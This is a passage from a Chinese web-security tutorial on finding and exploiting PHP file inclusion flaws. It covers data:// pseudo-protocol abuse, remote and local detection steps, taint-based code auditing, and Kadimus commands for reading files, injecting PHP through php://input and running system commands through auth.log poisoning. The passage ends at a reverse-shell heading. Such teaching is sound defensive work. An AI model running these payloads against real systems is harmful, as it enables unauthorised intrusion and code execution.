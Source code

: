 PHP 拥有许多伪协议，在远程和本地文件包含中都可以使用，我做个表总结下：

![图片8.png](https://s0.lgstatic.com/i/image2/M01/0C/3D/Cip5yGAX4KSAapyBAAPVaA5QE1A158.png)
此处我直接利用 data:// 执行代码，这比远程文件包含中利用方式便捷太多了，比如下面直接系统命令的示例。

![图片7.png](https://s0.lgstatic.com/i/image2/M01/0C/3D/Cip5yGAX4LqAHITdAAFk7HY8mf8051.png)

图 7 利用 data:// 伪协议执行系统命令

### 挖掘文件包含漏洞

#### 1.动态检测思路

挖掘文件包含漏洞的方式与测试漏洞的利用思路是一样的，分为本地和远程两种情况。

- **远程文件包含漏洞检测**

（1）向目标参数指定远程 URL 发起请求，确定远程服务器是否收到相应请求，此步骤可利用前面介绍过的 Burp Collaborator 进行测试。若发起请求说明有可能存在远程请求文件，同时也可能出现 SSRF 漏洞。

（2）如果第 1 步失败，尝试提交一个不存在的 IP 地址，并确认服务器尝试连接此 IP 时是否会出现超时。

（3）若第 1 步确认访问成功或者第 2 步确认请求超时，那么按前面介绍的利用方法，尝试利用远程文件包含漏洞以作最终确认。

- **本地文件包含漏洞检测**

（1）向目标参数提交一个已知的可执行资源的文件路径，比如 PHP 文件路径，看应用程序是否有任何变化。

（2）向目标参数提交一个已知的静态资源的文件路径，比如图片，看它的内容是否会再现在响应数据中。

（3）若第 1 步或第 2 步出现引用指定资源的情况，则按前面介绍的利用技巧尝试对疑似本地文件包含漏洞进行测试验证。

上述检测思路既适用于手工测试，也适用于日常的自动化扫描。

#### 2.静态检测思路

从源码入手，采用前面介绍过的污点分析思路进行代码审计。梳理下文件包含漏洞产生的相关 source 与 sink，然后去追踪数据流从 source 传播到 sink 过程中是否有进行过滤，若没有则可能存在文件包含漏洞。

![图片9.png](https://s0.lgstatic.com/i/image/M00/94/51/CgqCHmAX4MqASFfNAAFRLvvVLVE597.png)

#### 3.自动化检测与利用工具：Kadimus

提到自动化扫描，这里推荐一款自动化检测与利用文件包含漏洞的工具，它叫 [Kadimus](https://github.com/P0cL4bs/Kadimus/)，支持较多的利用方式，有部分是在前面未介绍到的，比如利用 /var/log/auth.log 实现远程代码执行的方法，利用它可以更加便捷地针对文件包含漏洞进行测试利用。

介绍几个常用命令：

复制代码

```
# 检测参数是否存在文件包含漏洞

./kadimus -u localhost/?pg=contact -A my_user_agent

# 读取文件内容

./kadimus -u localhost/?pg=contact -S -f "index.php%00" -O local_output.php --parameter pg

# 执行PHP代码

./kadimus -u localhost/?pg=php://input%00 -C '<?php echo "pwned"; ?>' -T input

# 执行系统命令

./kadimus -t localhost/?pg=/var/log/auth.log -T auth -c 'ls -lah' --ssh-target localhost

# 反连shell

```